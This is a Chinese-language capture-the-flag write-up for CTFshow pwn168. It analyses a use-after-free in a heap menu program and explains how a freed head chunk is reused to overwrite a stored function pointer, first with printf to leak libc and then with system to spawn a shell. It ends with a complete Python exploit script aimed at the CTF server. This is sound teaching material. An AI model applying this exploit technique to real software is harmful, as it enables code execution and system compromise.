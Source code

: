 ```yaml
---
title: CTFshow pwn168
tags:
    - pwn
    - UAF
categories:
    - 做题笔记
cover: /img/紫发.png
---
```

# CTFshow pwn168(UAF|重叠)

## 前言
​	差不多又休息了一周的时间，然后继续学习。这一题属与是入门级的UAF，太经典了。自己在写的时候还是卡住了，看到没有show这个功能，下意识想到劫持IO。因为堆溢出的题，劫持IO很常见，并且前几题都是如此。但是因为没有溢出漏洞，难以利用unsorted bin 中的chunk，覆盖低位去劫持IO。结果这倒题是用经典的UAF利用，覆盖原功能函数为printf.plt 去泄露栈上的libc，再同理修改原功能函数为system 去执行。
​	可谓是**“狸猫换太子”+“借尸还魂”**

## ida分析
### creat函数分析
![image-20250610224944662](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250610224944662.png)
1.首先会自动申请一个0x20的堆块，设为ptr1
2.如果我们输入的字符串长度大于0xf 就会再申请一个堆块来储存st，设为ptr2r；否则就会用0x20的堆块来储存
3.如果申请了ptr2，这ptr1指向ptr2，ptr1+3指向某个函数地址；如果没有ptr2，在ptr1中存放str，ptr1+3指向某个函数
4.ptr1+4 存放这数据长度
5.同时在bss段上的heaplist存放ptr1。
6.这里存在一个注意点，这里的buf是公用的。就是上一次的缓冲区，和这一次是一样的。并且因为使用strlen 和 strncpy 会出先"\x00"截断的情况。

### delete函数分析
![image-20250610225808351](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250610225808351.png)
![image-20250610230022127](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250610230022127.png)
![image-20250610230034623](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250610230034623.png)

1.delete 没有直接free，而是调用了之前保存在堆块里的指针，并且传递了堆块地址为参数
2.点击查看两个free，发现都是只有free，没有置空指针，存在uaf漏洞

## 思路分析
1.首先要理解这里的堆块结构，当str长度大于0xf时，添加一个str会分配两个堆块。分别将其称为head和content。那么str的内容在content中，head只保留一些信息和free功能的指针。
2.如果可以将某个堆块的head，分配给其他堆块作content，我们就可以修改这个功能，为其他的功能。最直接的就是将这个功能修改为system，再把参数设置为"/bin/sh;"就可以打通。但再此之前我们要泄露出libc。
3.劫持stdout，在这里似乎是行不通的。一般常见的手法是利用覆盖unsorted bin 中的fd 的低地址，同时通过 fastbin dup 去分配到stdout 从而完成劫持。但是这里没有溢出的漏洞。
4.所以，在这里考虑用覆盖原功能函数的低地址为printf.plt的低地址。虽然题目开启了pie，但对低地址的影响不大，可以爆破到。并且这个功能函数的参数就是head 堆块的内容。将其修改为printf后，关注到栈上存在stdout ，所以可以通过这个泄露libc。
5.那么这里是怎么让head成为content的呢，首先我们添加一个0x10的str，id为0，因为长度大于0xf，所以它会有head 和 content。同时head整个的大小是0x30(加上chunk 头),content的大小是0x20(一定不能是0x30).再添加一个，id为1。delete(1),delete(0)。这个时候再fastbins 中有两条链，一条是0x20，一条是0x30.都是两个chunk。我们再添加(0x18~0x28)大小之间的堆块，就会把两个0先0x30大小的堆块分配出来，也就id 为1 的head 变成了content。完成对id为1 的head 的修改，只要再次delete(1) 就可以执行我们的功能。
6.在泄露libc后，如法炮制。把system的地址写上去，就可以getshell了。但是注意不能用"/bin/sh\x00"，因为会0字符截断，导致后续的system地址写不上去。
## exp
```python 
from esy import *
context.log_level="debug"
context.terminal=['tmux','splitw','-h','-l','66%']

# libc=ELF("/home/tsq/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6")

def create(size,content):
    io.recvuntil("3.quit\n")
    io.send("create ")
    io.sendlineafter("Pls give string size:",str(size))
    io.sendafter("str:",content)

def delete(idx):
    io.recvuntil("3.quit\n")
    io.send("delete ")
    io.sendlineafter("id:",str(idx))
    io.sendlineafter("Are you sure?:","yes")

def exploit():
    create(0x10,b'\x61'*0x10) # 0 
    create(0x10,b'\x62'*0x10) # 1
    delete(1) 
    delete(0)

    create(0x20,b'%22$p'.ljust(0x18,b'b') + p16(0x08C0)) # 0 1是content

    delete(1)
    stdout=int(io.recv(14),16)
    libc=LibcSearcher("_IO_2_1_stdout_",stdout)
    libcbase=stdout-libc.dump("_IO_2_1_stdout_")
    system=libcbase+libc.dump("system")
    # libcbase=stdout-libc.sym["_IO_2_1_stdout_"]
    # system=libcbase+libc.sym["system"]
    logvalue("system",hex(system))
    logvalue("libc",hex(libcbase))

    create(0x10,b'\x61'*0x9+b'\x00')   # 1
    create(0x10,b'\x62'*0x9+b'\x00')   # 2
    delete(2)  
    delete(1)
    create(0x20,b'/bin/sh;'.ljust(0x18,b'\x63') + p64(system)) # 1 2是content
    #gdb.attach(io)
    delete(2)

i=0
while True:
    try:
        io,elf=loadfile("pwn","pwn.challenge.ctf.show",28247)
        exploit()
        io.interactive()
    except:
        io.close()
        print(i)
        i+=1
    
```